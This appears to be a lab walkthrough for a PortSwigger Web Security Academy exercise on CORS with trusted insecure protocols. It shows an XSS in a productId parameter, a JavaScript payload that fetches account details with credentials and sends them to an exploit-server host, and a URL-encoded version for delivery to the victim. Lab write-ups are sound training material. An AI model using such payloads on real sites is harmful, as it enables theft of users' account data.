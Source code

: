 # CORS vulnerability with trusted insecure protocols

```html
First - we have to discover XSS. By enumeration, we can find it in the `productId` get param when checking the stock on the website. From here - we have to make a script that requests the account details and exfiltrates it using a log. I first wrote this script to request and exfiltrate the dat:
```html
<script>
    var r = new XMLHttpRequest();
    r.onload = reqListener;
    r.open('get', 'https://0ae400c1044d68fa80de8f54004a0016.web-security-academy.net/accountDetails', true);
    r.withCredentials = true;
    r.send();

    function reqListener() {
        window.location = ('http://exploit-0aad005e04ed68aa80ab8e34017900ad.exploit-server.net/exploit?log=' + this.responseText);
    };
</script>
```
This then had to be url encoded and placed into the XSS param. This ended up with a this script that I could deliver to the victim:
```html
<script>
window.location = "http://stock.0ae400c1044d68fa80de8f54004a0016.web-security-academy.net/?productId=%3Cscript%3Evar%20r%3Dnew%20XMLHttpRequest()%3Br.onload%20%3D%20reqListener%3Br.open('get'%2C'https%3A%2F%2F0ae400c1044d68fa80de8f54004a0016.web-security-academy.net%2FaccountDetails'%2Ctrue)%3Br.withCredentials%3Dtrue%3Br.send()%3Bfunction%20reqListener()%7Bwindow.location%3D%20'http%3A%2F%2Fexploit-0aad005e04ed68aa80ab8e34017900ad.exploit-server.net%2Fexploit%3Flog%3D'%2Bthis.responseText%3B%7D%3B%3C%2Fscript%3E&storeId=1"
</script>
```